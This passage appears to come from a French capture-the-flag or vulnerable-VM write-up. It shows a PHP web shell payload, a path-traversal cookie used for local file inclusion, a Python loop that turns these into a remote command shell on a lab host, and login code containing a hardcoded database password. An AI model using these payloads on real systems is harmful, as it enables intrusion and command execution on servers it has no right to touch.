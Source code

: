 La réponse, c'est le `notes.php` qui disait stocker `note.txt` dans un "stockage temporaire".  

Et effectivement si on passe `<?php system($_get["cmd"]); ?>` à `notes.php` et que l'on utilise ensuite la faille *intruder* pour inclure `/tmp/note.txt` alors on peut bien passer des commandes.  

Encore un peu de code pour cracher une invite de commande pseudo-interactive :  

```python
import requests
import sys
import urllib

URL = "http://192.168.1.29/super_secret_login_path_muhahaha/panel.php?cmd={0}"

while True:
    cmd = raw_input("$ ").strip()
    if cmd == "exxit":
        sys.exit()
    cmd = urllib.quote(cmd)

    r = requests.get(URL.format(cmd),
            headers={"cookie": "intruder=....//....//....//....//....//....//....//....//tmp/note.txt;"},
            allow_redirects=False)
    print r.content[136:-9]
```

Dans `login.php` on trouve un identifiant correspondant à *Jack* :  

```php
<?PHP
session_start();

function login(){

        $username = mysql_escape_string($_POST["username"]);
        $password = mysql_escape_string($_POST["password"]);
        // mysql_connect("127.0.0.1", "Jack", "zgcR6mU6pX") or die ("Server Error"); I'll change this back once development is done. Got sick of typing my password.  
        mysql_connect("127.0.0.1", "www-data", "website") or die("Server Error");
        mysql_select_db("website") or die("Server Error");
        $sql = "SELECT COUNT(*) FROM users WHERE username='$username' and password='$password'";
        $res = mysql_query($sql) or die("Server Error");
        $row = mysql_fetch_row($res);
        if ($row[0]) {
                return 1;
        } else {
                return 0;
        }
}

if (login()) {
        $_SESSION["valid"] = 1;
        setcookie(time()+600);
        header('Location: index.php');
} else {
        header('Location: index.php?the_user_is_a_failure=1');
}
?>
```
